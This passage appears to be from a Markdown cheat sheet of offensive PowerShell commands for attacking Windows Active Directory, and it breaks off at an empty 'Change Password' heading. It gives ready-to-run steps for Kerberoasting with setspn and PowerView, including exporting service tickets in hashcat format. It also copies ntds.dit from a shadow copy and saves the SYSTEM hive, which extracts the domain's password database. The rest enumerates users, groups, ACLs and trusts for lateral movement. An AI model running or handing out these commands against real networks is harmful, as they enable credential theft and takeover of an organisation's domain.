 https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)
```powershell
PS> setspn.exe -Q */*
PS> setspn.exe -Q vmware/HOGE.clocal
PS> setspn.exe -T HOGE.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
## vsshadow.exe
```powershell
PS> vshadow.exe -nw -p C:
PS> copy \\?\GLOBALROOT\Device\HarddiskShadowVolumeCopy1\windows\ntds\ntds.dit c:\ntds.dit.bak
PS> reg.exe save hklm\system c:\system.bak
```


# PowerView  
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
```powershell
PS> Import-Module .\PowerView.ps1
# Enumerating & Retrieving Password Policies
PS> Get-DomainPolicy
# User
PS> Get-DomainUser -Identity TestUser | select samaccountname,objectsid,memberof,useraccountcontrol | fl
PS> Get-DomainUser -Identity TestUser -Domain hoge.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol
## Checking for Reversible Encryption Option 
PS> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} | select samaccountname,useraccountcontrol
PS> Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
PS> Get-DomainUser * -spn | select samaccountname
PS> Get-DomainUser -Identity TestUser | Get-DomainSPNTicket -Format Hashcat
PS> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\hoge_tgs.csv -NoTypeInformation
PS> Get-DomainUser TestSpn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
PS> $sid = Convert-NameToSid TestUser
# Group
PS> Get-DomainGroupMember -Identity "Domain Admins" -Recurse
PS> Get-DomainGroupMember -Identity "Test Group" | Select MemberName
PS> Get-DomainGroupMember -Identity "Test Group" | Select MemberName |? {$_.MemberName -eq 'TestUser'} -Verbose
PS> Get-DomainGroup -Identity "TestGroup" | select memberof
##　lateral, remote, rdp
PS> Get-NetLocalGroupMember -ComputerName TestComputer -GroupName "Remote Desktop Users"
##　lateral, remote, WinRM
PS> Get-NetLocalGroupMember -ComputerName TestComputer -GroupName "Remote Management Users"
## clear
PS> Remove-DomainGroupMember -Identity "Test Group" -Members 'TestUser' -Credential $Cred -Verbose
# ACL
PS> Find-InterestingDomainAcl
PS> $TestUserSid = Convert-NameToSid TestUser
PS> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $TestUserSid}
PS> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $TestUserSid} -Verbose
PS> $TestGroupSid = Convert-NameToSid "TestGroup"
PS> Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $TestGroupSid}
# Trust
PS> Get-DomainTrustMapping
PS> Test-AdminAccess -ComputerName TestHostDC
# Change Password
```
